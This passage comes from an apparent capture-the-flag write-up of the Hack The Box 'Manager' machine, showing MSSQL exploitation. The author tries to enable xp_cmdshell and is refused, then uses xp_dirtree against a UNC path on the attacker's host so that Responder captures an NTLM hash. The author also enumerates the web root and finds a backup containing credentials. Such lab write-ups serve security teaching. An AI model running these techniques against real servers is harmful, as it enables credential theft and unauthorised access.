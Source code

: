 Initially, I tried to enable `xp_cmdshell`, but our current user is unable to do so:

```
SQL> sp_configure 'show advanced options', '1'
[-] ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
SQL> RECONFIGURE
[-] ERROR(DC01\SQLEXPRESS): Line 1: You do not have permission to run the RECONFIGURE statement.
```

However, this does not stop me from using `xp_dirtree` and `responder` to grab a hash for the user.

```
SQL> xp_dirtree '\\10.10.14.19\test'
subdirectory
```

![](../../.gitbook/assets/htb-manager-image-1.png)

However, this hash cannot be cracked. Since I couldn't find a hash, I can at least enumerate the file system using `xp_dirtree`. I knew there was a website, so I started there at the default file of `C:\inetpub\wwwroot`:

```
SQL> EXEC master.sys.xp_dirtree 'C:\inetpub\wwwroot',0,1;
<TRUNCATED>
website-backup-27-07-23-old.zip                                                 
```

I found this `.zip` file. Within it, there's an `.old-conf.xml` file that contains some credentials:

![](../../.gitbook/assets/htb-manager-image-2.png)
